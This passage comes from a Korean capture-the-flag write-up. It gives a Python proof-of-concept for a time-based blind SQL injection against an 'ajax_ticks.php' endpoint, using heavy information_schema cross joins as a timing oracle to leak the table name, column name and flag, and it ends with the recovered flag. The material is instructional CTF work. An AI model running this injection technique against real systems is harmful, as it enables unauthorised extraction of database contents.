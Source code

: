 코드를 돌려보니 위와 같이 꽤나 정확한 오라클 결과들을 얻을 수 있었고, 위 오라클을 기반으로 테이블 명을 뽑아 보다가 `f`에서 `files`, `flag`라는 테이블이 존재하는 것을 확인하였고, 이를 기반으로 컬럼, 레코드 값을 뽑기로 하였습니다.

```python
import requests
import string
import time

str_list = string.printable.replace('%','').replace('_','')

def execute(s, url, data, Time):
	result = data
	p = 1
	while p == 1:
		start = result
		for s in str_list:
			start_time = time.time()
			requests.get(url.format((result + s + '%').encode().hex()))
			if (time.time() - start_time) > Time:
				result += s
				break
		if start == result:
			p = 0
	return result

if __name__ == '__main__':
	print("[*] Start an exploit")
	print(f"[*] The table name is {execute('fl', 'http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns on m.table_name like 0x{}', 'fl', 1.4)}")
	print(f"[*] The column name is {execute('fl', 'http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns as f on f.column_name like 0x{}', 'fl', 0.1)}")
	print(f"[*] The flag is {execute('fl', 'http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns cross join flag as c on c.flag like 0x{}', 'fl', 1.4)}")
	print("[*] Congratulations for to leak a flag XD")
```

![](https://media.discordapp.net/attachments/857916308892418071/887238985490001930/2021-09-14_4.30.04.png?width=1794&height=753)

PoC 코드를 돌려 주면 위 사진처럼 테이블/컬럼 명 및 플래그 릭에 성공하는 것을 확인할 수 있습니다.

```plaintext
FLAG : FLAG{d0geg0estom4rs}
```
